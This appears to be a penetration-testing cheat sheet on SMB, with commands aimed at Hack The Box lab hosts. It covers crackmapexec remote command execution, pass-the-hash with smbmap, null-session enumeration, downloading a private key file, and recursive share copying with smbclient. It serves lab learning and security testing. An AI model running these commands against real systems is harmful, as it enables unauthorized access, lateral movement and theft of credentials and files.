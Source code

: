## Connect to the host

**Crackmapexec:**

`crackmapexec smb -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183`

Using smbexec:

`crackmapexec smb --exec-method smbexec -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183`

## Pass The Hash

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107` 

Or 

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107 -R` 

**Crackmapexec**:

`crackmapexec smb  -u username -H LMHASH:NTHASH`

## Null Session

smbmap:

`smbmap -H {IP}` 

rpcclient:

`rpcclient -U "" -N {IP}`

crackmapexec:

`crackmapexec smb <target(s)> -u '' -p ''`

## Download files

**using smbmap:**

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107 --download alice/my_private_key.ppk`

#### using smbget

`smbget -R smb://10.10.10.178/Secure$`

#### using smbclient

```text
root@kali# smbclient -U TempUser //10.10.10.178/Secure$ welcome2019
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun  5 07:05:22 2020
  ..                                  D        0  Fri Jun  5 07:05:22 2020
  Finance                             D        0  Wed Aug  7 15:40:13 2019
  HR                                  D        0  Wed Aug  7 19:08:11 2019
  IT                                  D        0  Thu Aug  8 06:59:25 2019

                10485247 blocks of size 4096. 6545925 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \HR\*
NT_STATUS_ACCESS_DENIED listing \IT\*
```
